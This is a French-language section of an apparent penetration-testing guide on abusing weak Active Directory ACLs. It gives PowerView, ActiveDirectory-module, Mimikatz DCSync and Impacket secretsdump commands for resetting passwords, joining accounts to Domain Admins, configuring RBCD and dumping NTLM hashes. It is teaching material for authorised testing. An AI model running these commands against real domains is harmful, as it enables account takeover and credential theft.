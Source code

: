 # V.A. Exploitation des ACLs Vulnérables

L'énumération des ACLs (voir [IV.B Énumération des ACLs](../04-post-compromission/B-enumeration-acls.md)) peut révéler des permissions mal configurées sur des objets Active Directory. Ces permissions peuvent être exploitées pour élever les privilèges.

## 1. Droits `GenericAll` / `GenericWrite` / `WriteDacl` / `WriteOwner`

Ces droits sont parmi les plus puissants et permettent souvent un contrôle total de l'objet.

*   **Sur un Utilisateur Cible :**
    *   **Objectif :** Changer le mot de passe, ajouter à des groupes privilégiés, modifier des attributs pour la délégation.
    *   **Outils / Commandes :**
        *   **PowerView :**
            ```powershell
            # Si vous avez WriteDacl, vous pouvez vous donner GenericAll
            Add-ObjectAcl -PrincipalIdentity <ATTAQUANT> -Rights GenericAll -TargetIdentity <UTILISATEUR_CIBLE>
            # Puis changer le mot de passe
            Set-DomainUserPassword -Identity <UTILISATEUR_CIBLE> -Password "NouveauMotDePasse123!"
            # Ajouter à un groupe (si vous avez GenericAll/WriteProperty sur le groupe ou l'utilisateur)
            Add-DomainGroupMember -Identity "Domain Admins" -Members <UTILISATEUR_CIBLE>
            ```
        *   **Module ActiveDirectory :**
            ```powershell
            # Changer le mot de passe (nécessite des droits spécifiques ou GenericAll)
            Set-ADAccountPassword -Identity <UTILISATEUR_CIBLE> -NewPassword (ConvertTo-SecureString "NouveauMotDePasse123!" -AsPlainText -Force) -Reset
            # Ajouter à un groupe
            Add-ADGroupMember -Identity "Domain Admins" -Members <UTILISATEUR_CIBLE>
            ```
*   **Sur un Groupe Cible (ex: "Domain Admins") :**
    *   **Objectif :** S'ajouter soi-même ou un compte contrôlé au groupe.
    *   **Outils / Commandes :**
        *   **PowerView :**
            ```powershell
            Add-DomainGroupMember -Identity "Domain Admins" -Members <ATTAQUANT_OU_COMPTE_CONTROLE>
            ```
        *   **Module ActiveDirectory :**
            ```powershell
            Add-ADGroupMember -Identity "Domain Admins" -Members <ATTAQUANT_OU_COMPTE_CONTROLE>
            ```
*   **Sur un Objet Ordinateur :**
    *   **Objectif :** Potentiellement abuser de la délégation basée sur les ressources (RBCD) ou d'autres attaques.
    *   **Outils / Commandes (pour RBCD) :**
        *   **PowerView / Module ActiveDirectory :**
            ```powershell
            # Si vous avez GenericAll/WriteProperty sur l'ordinateur cible pour modifier msDS-AllowedToActOnBehalfOfOtherIdentity
            # $ordinateur_cible = Get-ADComputer <ORDINATEUR_CIBLE>
            # $attaquant_machine = Get-ADComputer <MACHINE_ATTAQUANT> (ou un compte machine créé)
            # Set-ADComputer $ordinateur_cible -PrincipalsAllowedToDelegateToAccount $attaquant_machine
            # Voir la section [V.C Délégations Kerberos](./C-delegation-kerberos.md) pour l'exploitation complète.
            ```
*   **Sur un GPO :**
    *   **Objectif :** Modifier le GPO pour exécuter du code, ajouter des admins locaux, etc. Voir [V.F Abus des GPO](./F-group-policy-abuse.md).

## 2. Droit `WriteProperty` sur des Attributs Spécifiques

*   **`member` (sur un groupe) :** Permet d'ajouter/retirer des membres.
    *   Exploitation : Similaire à `GenericAll` sur un groupe.
*   **`userAccountControl` (sur un utilisateur/ordinateur) :** Permet de modifier des flags (ex: activer/désactiver le compte, `DONT_EXPIRE_PASSWORD`).
*   **`servicePrincipalName` (sur un utilisateur/ordinateur) :** Peut être utilisé pour le Kerberoasting (si on peut ajouter un SPN à un compte dont on peut obtenir le hash) ou pour des attaques de délégation.
*   **`msDS-AllowedToActOnBehalfOfOtherIdentity` (sur un ordinateur) :** Permet de configurer la délégation basée sur les ressources.
*   **`gPLink` / `gPOptions` (sur une OU/Domaine) :** Permet de lier/délier des GPOs.

## 3. Droits Étendus Spécifiques

*   **`User-Force-Change-Password` (sur un utilisateur) :**
    *   **Objectif :** Forcer la réinitialisation du mot de passe de l'utilisateur lors de sa prochaine connexion (si on peut intercepter cette connexion ou si l'utilisateur est déjà connecté et que le changement est immédiat).
    *   **Outils / Commandes :**
        *   **PowerView :**
            ```powershell
            Set-DomainUserPassword -Identity <UTILISATEUR_CIBLE> -Password "NouveauMotDePasse123!" -ForceChange # Peut nécessiter des droits supplémentaires
            ```
        *   **Module ActiveDirectory :**
            ```powershell
            Set-ADUser -Identity <UTILISATEUR_CIBLE> -ChangePasswordAtLogon $true
            # Puis, si on a un accès au compte, on peut se connecter et le changer.
            # Ou utiliser des outils pour le faire à distance si possible.
            ```
*   **`DS-Replication-Get-Changes` et `DS-Replication-Get-Changes-All` (DCSync) :**
    *   **Objectif :** Permet de demander la réplication des secrets du domaine (hashes NTLM) depuis un DC. Nécessite ces droits sur l'objet Domaine.
    *   **Outils :**
        *   **Mimikatz :**
            ```
            lsadump::dcsync /user:<DOMAINE>\<UTILISATEUR_CIBLE>
            lsadump::dcsync /domain:<DOMAINE.LOCAL> /all /csv
            ```
        *   **Impacket `secretsdump.py` :**
            ```bash
            secretsdump.py <DOMAINE.LOCAL>/<UTILISATEUR_AVEC_DROITS_DCSYNC>:<MOT_DE_PASSE>@<IP_DC> -just-dc-user <UTILISATEUR_A_DUMPER>
            secretsdump.py <DOMAINE.LOCAL>/<UTILISATEUR_AVEC_DROITS_DCSYNC>@<IP_DC> -just-dc-ntlm
            ```

## Outils d'Exploitation Généraux
*   **PowerView :** Fonctions `Set-ObjectAcl`, `Add-ObjectAcl`, `Invoke-ACLScanner`.
*   **Module ActiveDirectory PowerShell :** `Get-Acl`, `Set-Acl`.
*   **BloodHound :** Visualiser les chemins d'attaque basés sur les ACLs.
*   **dsacls.exe / cacls.exe / icacls.exe (natifs Windows) :** Pour modifier les ACLs en ligne de commande.

**Note Importante :** Toujours agir avec prudence lors de la modification des ACLs. Une mauvaise manipulation peut avoir des conséquences graves sur la stabilité du domaine. Documenter chaque action. 